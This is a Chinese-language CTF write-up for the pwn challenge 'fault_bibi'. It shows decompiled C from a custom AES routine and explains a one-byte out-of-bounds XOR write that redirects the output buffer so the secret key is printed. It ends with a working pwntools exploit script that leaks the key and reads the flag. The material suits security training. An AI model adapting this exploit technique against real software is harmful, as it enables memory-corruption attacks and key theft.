


## 【漏洞点】
1. 加密函数有栈溢出覆盖<br>
   
   

## 题目分析

```c
 sub_22FF((__int64)v16, rand_1, 0);            // addRoundKeys
  for ( k = 1; k < dword_20545C; ++k )
  {
    if ( k == 8 )
      v16[v7] ^= v8;                            // -->key point 越界任意写一个字节，修改output地址为rand地址，可实现将key覆盖为密文输出
    sub_2886((__int64)v16);                     // subBytes
    sub_26B5((__int64)v16);                     // shiftRows
    sub_24B9(v16);                              // MixColumns
    sub_22FF((__int64)v16, rand_1, k);          // addRoundKeys
  }
  sub_2886((__int64)v16);
  sub_26B5((__int64)v16);
  sub_22FF((__int64)v16, rand_1, dword_20545C);
```
可以看到这里有个v16[v7] ^= v8,v7和v8是传进来的参数，然而在解密函数里可以覆盖到这两个的值
```c
  key_extension((__int64)&rand, (__int64)v1);
  AES((__int64)&input, (__int64)&output, (__int64)v1, byte_205440, byte_205441);
  printf02x((__int64)&output, 16);
```
后续的操作会把key值修改，最后还会把加密后的内容输出，输出的内容和key是一样的，这样就拿到了key了，但是要加密一样的字符串两次才可以
## 利用

1. 明文加密一次
2. 解密一次,使用0x20覆盖加密函数的两个参数
3. 再次使用相同明文加密,使得异或修改output地址为rand地址,实现覆盖key为输出的密文,输出则为key
4. 输入key,拿到flag


## exp1:
```python
from pwn import *

context.arch='amd64'
def cmd(command):
    p.recvuntil(">",timeout=0.5)
    p.sendline(command)

def main():
    global p
    #p = remote(host,port)
    p = process("./fault_bibi")
        #gdb.attach(p)
        # debug(0x0000000000003004)
    cmd('e')
    p.sendline("cafebabedeadbeefcafebabedeadbeef".decode('hex'))
    cmd('d')
    payload1 = "5658a9ced4f5415d3e85e2e879d464405658a9ced4f5415d3e85e2e879d46440"
    payload2 = "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb"
    p.sendline(payload1)
    p.sendline(payload2)

    cmd('e')
    p.sendline("cafebabedeadbeefcafebabedeadbeef".decode('hex'))
    p.recvuntil("e:encryp",drop=True)
    p.recvuntil(">")
    key = p.recvuntil("e:encryp",drop=True)
    info(key)
    cmd('s')
    p.sendline(key)
    flag = p.recv(0x3c,timeout=0.5)
    info(flag)
    p.interactive()

if __name__ == "__main__":
    main()
```